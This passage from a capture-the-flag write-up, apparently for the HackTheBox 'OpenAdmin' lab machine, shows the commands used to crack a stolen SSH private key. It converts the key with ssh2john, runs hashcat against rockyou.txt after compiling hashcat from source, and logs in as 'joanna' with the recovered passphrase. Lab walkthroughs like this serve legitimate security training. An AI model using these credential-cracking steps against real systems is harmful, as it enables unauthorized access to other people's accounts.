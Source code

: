 - SSH key hash ID: https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
# above SSH private key saved in key.priv
find / -iname ssh2john.py 2>/dev/null
/usr/share/john/ssh2john.py key.priv | cut -d ':' -f 2 > ssh.hash
hashcat -m 22931 -a 0 --quiet --potfile-disable ssh.hash rockyou.txt
```

But this results in the following error:

```
/usr/share/hashcat/modules/module_22931.so: cannot open shared object file: No such file or directory
```

This is because the 22931 hashcat module is not yet included in Kali. Download and compile the hashcat source and re-run the crack:

```bash
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
./hashcat -m 22931 -a 0 --quiet --potfile-disable ../ssh.hash ../rockyou.txt
```

This results in a win:

![hash2](./openadmin/hash2.png)

Use this to authenticate with the target at `joanna` without a password:

```bash
# prep directory for SSH keys
mkdir ./ssh-target
chmod 700 ./ssh-target
cp key.priv ./ssh-target/private.key
chmod 600 ./ssh-target/private.key
# attempt SSH connection
ssh -i ./ssh-target/private.key joanna@10.10.10.171 # password bloodninjas
```

And this results in a valid login:
